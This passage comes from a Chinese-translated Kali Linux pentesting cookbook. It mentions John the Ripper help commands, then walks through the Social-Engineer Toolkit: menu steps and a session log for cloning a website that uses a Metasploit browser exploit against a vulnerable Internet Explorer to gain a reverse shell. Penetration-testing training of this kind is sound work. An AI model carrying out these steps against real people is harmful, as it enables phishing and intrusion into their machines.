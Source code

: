 ## 还有更多...

可以使用`man john`或`john --help`命令找到更多关于 John the Ripper 的信息：

![还有更多...](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-itrs-exp-cb/img/image_08_008.jpg)

# 使用社会工程工具包

**社会工程工具包**（**SET**），顾名思义，专注于利用人类好奇心的特性。SET 是由 David Kennedy（ReL1K）编写的，并在社区的大力帮助下，已经整合了攻击。在这个教程中，我们将看看如何创建一个恶意可执行文件，以及攻击者如何等待受害者执行该文件。我们还将看看攻击者如何通过诱使受害者访问恶意网站来获得反向 shell。

## 准备工作

在这个教程中，我们将使用带有 Internet Explorer 6 的 Windows 操作系统和 Kali Linux 机器；`Setoolkit`默认作为 Kali 的一部分安装。

## 如何做...

1.  使用以下命令启动社会工程工具包：

```
Setoolkit

```

输出将如下截图所示：

![如何做...](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-itrs-exp-cb/img/image_08_009.jpg)

在这个活动中，我们将看看如何使用“社会工程攻击”来托管一个假网站，并利用用户的 IE（如果易受攻击），并获得对他账户的反向 shell。我们将选择“社会工程攻击”，即选项 1：

![操作步骤...](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-itrs-exp-cb/img/image_08_010.jpg)

1.  现在我们将选择网站攻击向量，即 2，然后看起来如下：![操作步骤...](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-itrs-exp-cb/img/image_08_011.jpg)

1.  现在我们将选择“Metasploit 浏览器利用方法”选项 2：![操作步骤...](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-itrs-exp-cb/img/image_08_012.jpg)

1.  之后，我们将克隆该网站并填写必要的信息：

```
      set:webattack>2
      [-] NAT/Port Forwarding can be used in the cases where your SET       machine is
      [-] not externally exposed and may be a different IP address       than your reverse listener.
      set> Are you using NAT/Port Forwarding [yes|no]: yes
      set:webattack> IP address to SET web server (this could be your        external IP or hostname):192.168.157.157
      set:webattack> Is your payload handler (metasploit) on a       different IP from your external NAT/Port FWD address [yes|no]:no
      [-] SET supports both HTTP and HTTPS
      [-] Example: http://www.thisisafakesite.com
      set:webattack> Enter the url to clone:http://security-geek.in

```
